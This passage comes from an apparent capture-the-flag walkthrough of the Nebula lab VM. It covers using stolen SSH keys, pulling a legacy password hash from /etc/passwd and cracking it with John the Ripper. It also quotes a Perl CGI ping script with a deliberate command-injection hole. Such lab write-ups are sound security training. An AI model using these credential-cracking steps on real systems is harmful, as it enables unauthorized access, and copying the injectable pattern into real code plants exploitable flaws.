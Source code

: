 Right so let's use these keys to login as _flag05_.

```sourceCode
level05@nebula:/home/flag05/.backup$ ssh -i /tmp/.ssh/id_rsa flag05@localhost

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 06

> The flag06 account credentials came from a legacy unix system.

To cut a long story short, the way the password is stored for this user is not the same as for the other users. In older \* nix systems the password was stored inside the `/etc/passwd` file. So let's take a look:

```sourceCode
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Yep, there's the encrypted password. Grab that line and run it through John The Ripper

```sourceCode
root@kali:~# echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > nebula.txt
root@kali:~# john nebula.txt  -show
flag06:hello:993:993::/home/flag06:/bin/sh

1 password hash cracked, 0 left
```

That's that, now back on the nebula box

```sourceCode
level06@nebula:/home/flag06$ ssh flag06@localhost

flag06@localhost's password: hello

getflag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 07

> The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

```